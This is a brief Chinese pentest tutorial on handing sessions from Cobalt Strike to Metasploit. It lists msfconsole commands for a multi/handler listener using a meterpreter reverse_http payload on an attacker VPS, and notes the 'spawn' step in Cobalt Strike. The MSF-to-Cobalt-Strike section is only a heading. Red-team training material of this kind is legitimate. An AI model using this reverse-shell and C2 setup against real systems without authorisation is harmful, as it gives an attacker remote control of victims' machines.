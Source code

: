 # 渗透测试 & MSF与CobaltStrike联动

## CobaltStrike->MSF

​	运行`msfconsole`，启动监听。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost vps_ip
set lport 44444
exploit
```

![](img/1.png)

​	接着`CobaltStrike`建立一个外部监听，`Host`和`Port`为`lhost`和`lport`。

![](img/2.png)

​	接着将会话派生过去，在`CobaltStrike`控制台执行命令`spawn 105-msf，`msf`收到派生会话成功上线。

![](img/3.png)



## MSF->CobaltStrike

